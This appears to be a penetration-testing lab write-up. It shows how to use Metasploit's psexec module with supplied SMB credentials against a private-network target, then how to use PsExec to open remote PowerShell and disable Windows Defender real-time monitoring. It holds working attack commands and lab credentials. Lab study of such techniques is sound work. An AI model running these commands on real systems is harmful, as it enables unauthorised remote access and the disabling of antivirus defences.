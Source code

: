 ### 4.1 Metasploit 


From Kali Linux, run Metasploit by running this in the terminal

```bash
# starts metasploit framework
msfconsole

# Selecting the exploit
use exploit/windows/smb/psexec

# shows options
show options
```

>When we use show options this will be seen 

![[Pasted image 20231112164241.png]]
>we need to set it so that this payload is attacking the right target

enter the following to do this.
```bash
set SMBDomain uadtargetnet.com
set SMBPass ethylene
set SMBUser A.George
set RHOSTS 192.168.10.1
set LHOSTS 192.168.10.253

# To Run the script
exploit or run
```

![[Pasted image 20231112164800.png]]
> This is happening because of the anti-virus on the target, it is deleting the payload, and preventing it from running

### 4.3 Using PsExec to stop the Anti-Virus

To get around the the previous issue, one great way to get around the anti-virus deleting the payload is to use **PsExec** from a windows machine

from a windows machine run this command
> Open PowerShell and change directory to where the PsExec tool is 
>> Logon and password used in this case ***A.George*** / ***ethylene***

- Run the following
```powershell
# Go to Directory
cd \to\file\location

#run PsExec with cmd and powershell
.\PsExec.exe \\192.168.10.1 -u A.George powershell

# When prompted
Password: ethylene 

# To Disable Anti-Virus
C:\Windows\system32> Set-MpPreference -DisableRealtimeMonitoring $true
```
